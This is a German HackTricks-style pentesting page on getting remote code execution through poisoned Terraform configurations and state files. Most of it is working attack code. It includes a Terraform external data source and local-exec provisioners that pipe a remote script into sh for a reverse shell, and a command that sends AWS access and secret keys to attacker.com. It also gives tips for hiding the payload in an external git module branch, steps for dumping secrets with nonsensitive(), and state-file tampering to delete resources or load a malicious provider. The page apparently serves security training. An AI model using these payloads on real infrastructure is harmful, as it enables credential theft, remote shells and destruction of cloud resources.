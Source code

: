 # Terraform Sicherheit

<details>

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}

## Grundlegende Informationen

[Aus der Dokumentation:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform ist ein **Infrastruktur als Code-Tool**, mit dem Sie sowohl **Cloud- als auch lokale Ressourcen** in menschenlesbaren Konfigurationsdateien definieren können, die Sie versionieren, wiederverwenden und teilen können. Sie können dann einen konsistenten Workflow verwenden, um Ihre gesamte Infrastruktur während ihres Lebenszyklus bereitzustellen und zu verwalten. Terraform kann Low-Level-Komponenten wie Compute, Storage und Netzwerkressourcen sowie High-Level-Komponenten wie DNS-Einträge und SaaS-Funktionen verwalten.

### Wie funktioniert Terraform?

Terraform erstellt und verwaltet Ressourcen auf Cloud-Plattformen und anderen Diensten über deren Anwendungsprogrammierschnittstellen (APIs). Anbieter ermöglichen es Terraform, mit praktisch jeder Plattform oder jedem Dienst mit einer zugänglichen API zu arbeiten.

![](<../.gitbook/assets/image (177).png>)

HashiCorp und die Terraform-Community haben bereits **mehr als 1700 Anbieter** geschrieben, um Tausende verschiedener Arten von Ressourcen und Diensten zu verwalten, und diese Zahl wächst weiter. Sie finden alle öffentlich verfügbaren Anbieter im [Terraform-Register](https://registry.terraform.io/), einschließlich Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog und vielen mehr.

Der Kernworkflow von Terraform besteht aus drei Phasen:

* **Schreiben:** Sie definieren Ressourcen, die sich über mehrere Cloud-Anbieter und Dienste erstrecken können. Sie könnten beispielsweise eine Konfiguration erstellen, um eine Anwendung auf virtuellen Maschinen in einem Virtual Private Cloud (VPC)-Netzwerk mit Sicherheitsgruppen und einem Lastenausgleicher bereitzustellen.
* **Planen:** Terraform erstellt einen Ausführungsplan, der die Infrastruktur beschreibt, die es basierend auf der vorhandenen Infrastruktur und Ihrer Konfiguration erstellen, aktualisieren oder zerstören wird.
* **Anwenden:** Nach Genehmigung führt Terraform die vorgeschlagenen Operationen in der richtigen Reihenfolge aus und berücksichtigt dabei alle Ressourcenabhängigkeiten. Wenn Sie beispielsweise die Eigenschaften eines VPC aktualisieren und die Anzahl der virtuellen Maschinen in diesem VPC ändern, wird Terraform das VPC neu erstellen, bevor es die virtuellen Maschinen skaliert.

![](<../.gitbook/assets/image (215).png>)

## Terraform Labor

Installieren Sie einfach Terraform auf Ihrem Computer.

Hier finden Sie eine [Anleitung](https://learn.hashicorp.com/tutorials/terraform/install-cli) und hier finden Sie die [beste Möglichkeit, Terraform herunterzuladen](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform hat **keine Plattform, die eine Webseite oder einen Netzwerkservice freigibt**, den wir aufzählen können. Daher ist der einzige Weg, Terraform zu kompromittieren, zu **können, Konfigurationsdateien von Terraform hinzuzufügen/zu ändern**.

Terraform ist jedoch eine **sehr sensible Komponente**, die kompromittiert werden kann, da sie **privilegierten Zugriff** auf verschiedene Standorte hat, um ordnungsgemäß zu funktionieren.

Der Hauptweg für einen Angreifer, das System zu kompromittieren, auf dem Terraform ausgeführt wird, besteht darin, das Repository zu kompromittieren, das Terraform-Konfigurationen speichert, da sie irgendwann **interpretiert** werden.

Tatsächlich gibt es Lösungen, die **terraform plan/apply automatisch ausführen, nachdem ein PR erstellt wurde**, wie zum Beispiel **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Wenn es Ihnen gelingt, eine Terraform-Datei zu kompromittieren, gibt es verschiedene Möglichkeiten, wie Sie RCE durchführen können, wenn jemand `terraform plan` oder `terraform apply` ausführt.

### Terraform plan

Terraform plan ist der **am häufigsten verwendete Befehl** in Terraform, und Entwickler/Lösungen, die Terraform verwenden, rufen ihn die ganze Zeit auf. Daher ist der **einfachste Weg, RCE zu erhalten**, sicherzustellen, dass Sie eine Terraform-Konfigurationsdatei vergiften, die beliebige Befehle in einem `terraform plan` ausführt.

#### Verwendung eines externen Anbieters

Terraform bietet den [`external`-Anbieter](https://registry.terraform.io/providers/hashicorp/external/latest/docs), der eine Möglichkeit bietet, zwischen Terraform und externen Programmen zu kommunizieren. Sie können die `external`-Datenquelle verwenden, um während eines `plan` beliebigen Code auszuführen.

Das Einfügen von etwas Ähnlichem in eine Terraform-Konfigurationsdatei wird einen Reverse-Shell ausführen, wenn `terraform plan` ausgeführt wird:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Verwendung eines benutzerdefinierten Anbieters

Ein Angreifer könnte einen [benutzerdefinierten Anbieter](https://learn.hashicorp.com/tutorials/terraform/provider-setup) an das [Terraform-Register](https://registry.terraform.io/) senden und ihn dann dem Terraform-Code in einem Feature-Zweig hinzufügen ([Beispiel von hier](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Der Anbieter wird im `init` heruntergeladen und führt den bösartigen Code aus, wenn `plan` ausgeführt wird.

Ein Beispiel finden Sie unter [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Verwendung eines externen Verweises

Beide genannten Optionen sind nützlich, aber nicht sehr unauffällig (die zweite ist unauffälliger, aber komplexer als die erste). Sie können diesen Angriff sogar auf eine **unauffälligere Weise** durchführen, indem Sie diesen Vorschlägen folgen:

* Anstatt den Reverse-Shell direkt in die Terraform-Datei einzufügen, können Sie eine **externe Ressource laden**, die die Reverse-Shell enthält:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Du kannst den Rev Shell-Code unter [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) finden.

* In der externen Ressource verwende das **ref**-Feature, um den **Terraform Rev Shell-Code in einem Branch** im Inneren des Repos zu verstecken, etwas wie: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform Apply wird ausgeführt, um alle Änderungen anzuwenden. Du kannst es auch missbrauchen, um RCE zu erhalten, indem du **eine bösartige Terraform-Datei mit** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** injizierst**.\
Du musst nur sicherstellen, dass ein Payload wie die folgenden in der `main.tf`-Datei endet:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Folgen Sie den **Vorschlägen aus der vorherigen Technik**, um diesen Angriff auf **unauffälligere Weise unter Verwendung externer Referenzen** durchzuführen.

## Geheimnisauszüge

Sie können **geheime Werte, die von Terraform verwendet werden, ausgeben lassen**, indem Sie `terraform apply` ausführen und etwas Ähnliches zur Terraform-Datei hinzufügen:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Ausnutzung von Terraform-Zustandsdateien

Falls Sie Schreibzugriff auf Terraform-Zustandsdateien haben, aber den Terraform-Code nicht ändern können, bietet [**diese Forschung**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) einige interessante Möglichkeiten, um von der Datei zu profitieren:

### Löschen von Ressourcen <a href="#deleting-resources" id="deleting-resources"></a>

Es gibt 2 Möglichkeiten, Ressourcen zu zerstören:

1. **Fügen Sie eine Ressource mit einem zufälligen Namen in die Zustandsdatei ein, die auf die tatsächliche zu zerstörende Ressource zeigt**

Da Terraform feststellen wird, dass die Ressource nicht existieren sollte, wird sie zerstört (gemäß der angegebenen tatsächlichen Ressourcen-ID). Beispiel von der vorherigen Seite:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Ändern Sie die Ressource so, dass ein Update nicht möglich ist (so wird sie gelöscht und neu erstellt)**

Für eine EC2-Instanz reicht es aus, den Typ der Instanz zu ändern, damit Terraform sie löscht und neu erstellt.

### RCE

Es ist auch möglich, [einen benutzerdefinierten Anbieter zu erstellen](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) und einfach einen der Anbieter in der Terraform-Zustandsdatei durch den bösartigen Anbieter zu ersetzen oder eine leere Ressource mit dem bösartigen Anbieter hinzuzufügen. Beispiel aus der Originalforschung:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Schwarzerlisteten Anbieter ersetzen

Falls Sie auf eine Situation stoßen, in der `hashicorp/external` auf die schwarze Liste gesetzt wurde, können Sie den `external`-Anbieter neu implementieren, indem Sie Folgendes tun. Hinweis: Wir verwenden eine Abspaltung des externen Anbieters, veröffentlicht von https://registry.terraform.io/providers/nazarewk/external/latest. Sie können auch Ihre eigene Abspaltung oder Neuimplementierung veröffentlichen.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Dann können Sie `external` wie gewohnt verwenden.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Audit-Tools

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec verwendet die statische Analyse Ihres Terraform-Codes, um potenzielle Fehlkonfigurationen zu erkennen.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan ist ein statischer Code-Analyzer für Infrastruktur als Code.

## Referenzen

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}
